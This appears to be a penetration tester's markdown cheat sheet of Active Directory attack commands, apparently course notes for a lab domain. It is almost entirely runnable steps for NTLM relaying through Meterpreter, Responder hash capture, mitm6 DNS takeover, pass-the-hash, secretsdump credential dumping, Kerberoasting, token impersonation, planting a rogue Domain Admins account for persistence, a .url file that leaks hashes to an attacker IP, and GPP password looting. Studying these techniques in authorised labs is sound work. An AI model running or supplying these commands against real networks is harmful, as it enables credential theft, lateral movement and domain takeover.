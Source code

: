 # Remote NTLM Relaying via Meterpreter
- On the victim machine
```powershell
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```
- In the Meterpreter session
```powershell
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
- On ntlmrelayx
```powershell
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```
# Capturing hashes using RESPONDER
```bash
 sudo responder -I tun0 -dwPv
```
# SMB Relay 
> SMB signing must be disabled
Scan host without smb signing
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.107.186 -Pn
```
- Turn off smb and http from **Responder.conf** file
- Run Responder
```bash
sudo responder -I tun0 -rdw -v
```
- Setup another tool `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf <target file> -smb2support
```
# IPv6 DNS Takeover via mitm6 & ntlmrelayx
- Set up ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://<target IP> -wh fakepad.marvel.local -l lootme
```
- Setup MITM6.
```bash
sudo mitm6 -d <domain name>
```
On successful it will create a lootme folder in the local machine with a bunch of information.

# Pass Attacks
- Using **Crackmapexec smb**
```bash
crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -p <password>

crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -H <hash> --local-auth
```
# Dumping and Cracking hashes
- using **secretsdump**
```bash
secretsdump.py <domain>/<user>:<password>@<target IP>

secretsdump.py <user>:@<IP> -hashes <hash>
```
# Kerberosting
- Using **GetUserSPNs**
```bash
sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request
```
# Token Impersonation
- Using **Metasploit**
```bash
meterpreter> load incognito
meterpreter> list tokens -u
meterpreter> impersonate_token <token name>
```
- Next for persistence, we can add new user and run secretsdump.
```bash
meterpreter> net user /add badboy password123 /DOMAIN
meterpreter> net group "Domain Admins" badboy /ADD /DOMAIN


secretsdump.py <Domain>/badboy:'password123'@<IP>
```
# URL File Attacks
- Make an internet shortcut file (Example: "@test.url")
- Put the file into the shared directory on SMB
```text
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```
- Set up the responder.
```bash
responder -I eth0 -v
```
When the user moves to the shared directory credentials data intercepts through the responder.

# GPP Attacks
- Using Metasploit.
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```
- Using SMBclient, Check for anonymous login allowed
```bash
smbclient -L \\\\<IP>\\

smbclient \\\\<IP>\\<anonymous login allowed share>
prompt off
recurse on
mget *
```
- Check for **Group.xml** file
- Copy the cpassword and run cmd to decrypt it.
```bash
 gpp-decrypt <cPassword>
```
- Using GetUserSPNs we can dump credentials.
```bash
 GetUserSPNs.py <Domain/username:password> -dc-ip <DC IP> -request
```


